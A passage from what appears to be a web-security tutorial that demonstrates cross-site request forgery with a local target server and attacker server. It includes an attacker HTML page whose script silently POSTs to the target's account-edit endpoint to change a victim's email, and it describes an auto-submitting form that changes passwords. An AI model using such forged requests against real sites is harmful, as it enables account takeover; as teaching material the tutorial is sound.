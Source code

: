      - Routes
      
        - index view  apps/target-server/src/routes/index.routes.js file

          ```javascript
            // add this route
            router.get('/', (req, res) => {
              const logout = req.session.userId ? true : false;
              res.render('welcome', { login: !logout, logout });
            });
            // update this route
            router.get('/home', login, (req, res) => {
              res.render('home', { userId: req.session.userId });
            });
            ....
          ```
        - login view  apps/target-server/src/routes/login.routes.js file

          ```javascript
            import {
              ....
              processLogOut,
            } from '../controllers/login.controllers.js';
            ....
            router.get('/login/logout', processLogOut);
            ....
          ```
      
      - How this attack occurs
        - targer-server
          - Run targer-server: [targer-server](http://localhost:3333/home)
          - Login into targer-server
        - attack-server
          - Run targer-server: [attack-server](http://localhost:5555)
          - This is going to automaticaly call form post and change your password.
        - targer-server
          - Login into targer-server
          - Invalid credentials message.

  
  - Second attack form

    - Create an apps/attack-server/src/index_01.html file

      ```html
        <!DOCTYPE html>
        <html lang="en">
        <head>
          <meta charset="UTF-8">
          <meta name="viewport" content="width=device-width, initial-scale=1.0">
          <title>Attacker WebSite</title>
        </head>
        <body>
          <div>
            <h1>Some nice website</h1>
          </div>
          <script>
            fetch("http://localhost:3333/login/edit", {
              method: "POST",
              body: {
                email: "HACKED_sinqueteenteres@test.com"
              }
            })
              .then(res => res.text())
              .then(text => console.log(text))
              .catch(err => console.log(err))
          </script>